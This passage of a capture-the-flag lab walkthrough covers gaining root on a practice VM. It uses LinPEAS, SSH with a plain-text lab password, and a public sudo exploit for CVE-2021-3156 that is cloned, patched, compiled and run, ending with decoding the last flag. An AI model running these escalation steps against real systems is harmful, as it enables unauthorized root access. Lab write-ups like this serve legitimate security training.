









5.4 Root privilege. Third flag.
Installing LinPEAS.
LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on book.hacktricks.xyz.
2. On your Kali Machine create a “linpeas.sh” file with content of https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh.
3. Copy the file to the victim's "/tmp' directory.
kali@kali:~/nagini$scp linpeas.sh neville@192.168.12.20:/tmp
4. Connet via SSH to the victim's machine.
User: neville
Password: bL!Bsg3k
kali@kali:~/nagini$ssh neville@192.168.12.20
5. Change the “linpeas.sh” file permissions.
neville@Fawkes:~$cd /tmp
neville@Fawkes:/tmp$chmod +x linpeas.sh
neville@Fawkes:/tmp$chmod +x linpeas.sh
6. Run “linepeas.sh” file with output file.
neville@Fawkes:/tmp$./linpeas.sh | tee output
Output:

We got a message “sudo ---> check_if_the_sudo_version_is_vulnerable”.
7. Show the “sudo” version.
neville@Fawkes:/tmp$sudo --version
Output:

8. You can use the exploit from https://github.com/0xdevil/CVE-2021-3156.
Clone the directory on your Kali Machine and copy it to the vicitm's machine.
$git clone https://github.com/0xdevil/CVE-2021-3156.git
$scp -r CVE-2021-3156 neville@192.168.12.20:/tmp
$scp -r CVE-2021-3156 neville@192.168.12.20:/tmp
9. On your “reveerse shell” terminal go to the “/tmp” directory.
neville@Fawkes:$cd /tmp/CVE-2021-3156
10. Modify the “exploit.c” file.
By default, after the installation, sudo and sudoedit are placed in
/usr/bin/, but here, as you can see executing which sudo and which sudoedit, they are placed in /usr/local/bin/.You only need to replace the default path in
exploit.c with the custom one.After this small modification the exploit will work.
Output:

11. Compile the file.
neville@Fawkes:/tmp/CVE-2021-3156$make
Output:

12. Run the file.
neville@Fawkes:/tmp/CVE-2021-3156$./exploit.sh 2>/dev/null
Output:

13. Show the “id".
neville@Fawkes:/tmp/CVE-2021-3156$id
Output:

14. Let's find that last flag.
cd root
ls
ls
Output:

15. Show the content.
cat horcrux3.txt
Output:

16. Decode the hoxcrux. On your Kali Machine run the following command
$echo 'ODogVm9sRGVNb3JUIGRFZmVBdGVkIGJZIGhBcnJZIFBvVFRlUg==' | base64 --decode
Output:
